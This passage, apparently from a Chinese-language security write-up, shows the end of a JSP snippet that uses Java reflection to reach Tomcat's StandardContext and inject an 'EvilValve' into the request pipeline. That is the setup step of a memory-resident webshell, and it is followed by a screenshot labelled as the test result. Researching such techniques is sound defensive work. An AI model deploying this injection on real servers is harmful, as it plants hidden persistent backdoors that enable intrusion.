 >         stdctx = applicationContext.getClass().getDeclaredField("context");
>         stdctx.setAccessible(true);
>         StandardContext standardContext;
>         standardContext = (StandardContext) stdctx.get(applicationContext);
>         Valve evilValve = new EvilValve();
>         standardContext.getPipeline().addValve(evilValve);
>         out.println("valve shell inject success");
>     } catch (NoSuchFieldException | IllegalAccessException e) {
>         e.printStackTrace();
>     }
> %>
> ```

测试效果

![image](https://user-images.githubusercontent.com/55024146/144636520-2d377082-7756-4214-94bb-7dfad4383258.png)







